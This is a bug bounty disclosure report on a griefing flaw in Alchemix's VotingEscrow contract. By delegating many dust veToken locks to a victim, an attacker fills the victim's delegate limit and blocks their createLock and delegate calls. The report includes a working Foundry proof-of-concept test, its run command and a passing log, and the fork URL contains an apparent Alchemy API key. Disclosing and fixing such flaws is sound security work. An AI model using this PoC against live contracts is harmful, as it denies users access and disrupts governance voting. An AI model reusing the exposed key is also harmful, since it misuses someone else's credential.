 
# Anyone can let user's delegates reach the upper limit causing users to be unable to add more delegates

Submitted on May 16th 2024 at 19:24:04 UTC by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31298

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

Each user in the `VotingEscrow` contract has a maximum number of delegate $veToken. Any user can delegate his $veToken to other users. An attacker can exploit this to let user's delegate to reach the upper limit.

## Vulnerability Details

This bug involves `createLock` operation

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1040
                require(dstTokensOld.length + 1 <= MAX_DELEGATES, "dst would have too many tokenIds");
```

and `delegate` operation

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1110
                require(dstTokensOld.length + ownerTokenCount <= MAX_DELEGATES, "dst would have too many tokenIds");
```

In other words, an attacker can use this bug to DOS `createLock` and `delegate` operations of user.

**Suggested fix**

It is recommended that user can set the minimum number of individual delegates to prevent dust attacks

## Impact Details

An attacker can make the user no longer able to be delegated and mint $veToken. Causes users to be DOSed and may affect governance voting.

## References

None

## Proof of concept
The PoC patch

```diff
diff --git a/src/test/VotingEscrow.t.sol b/src/test/VotingEscrow.t.sol
index 6e828a3..73ca043 100644
--- a/src/test/VotingEscrow.t.sol
+++ b/src/test/VotingEscrow.t.sol
@@ -1015,4 +1015,25 @@ contract VotingEscrowTest is BaseTest {
 
         hevm.stopPrank();
     }
+
+    function testYttriumzzPocTemp() external {
+        address attacker = address(0xa77ac8e3);
+        address user = address(0xacc);
+        deal(bpt, attacker, 1e18);
+        deal(bpt, user, 1e18);
+
+        hevm.startPrank(attacker);
+        IERC20(bpt).approve(address(veALCX), type(uint256).max);
+        for (uint256 i = 0; i < veALCX.MAX_DELEGATES(); i++) {
+            veALCX.createLock(1, 0, true);
+        }
+        veALCX.delegate(user);
+        hevm.stopPrank();
+
+        hevm.startPrank(user);
+        IERC20(bpt).approve(address(veALCX), type(uint256).max);
+        hevm.expectRevert("dst would have too many tokenIds");
+        veALCX.createLock(1, 0, true);
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testYttriumzzPocTemp() (gas: 764132469)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.47s (3.45s CPU time)

Ran 1 test suite in 4.46s (3.47s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


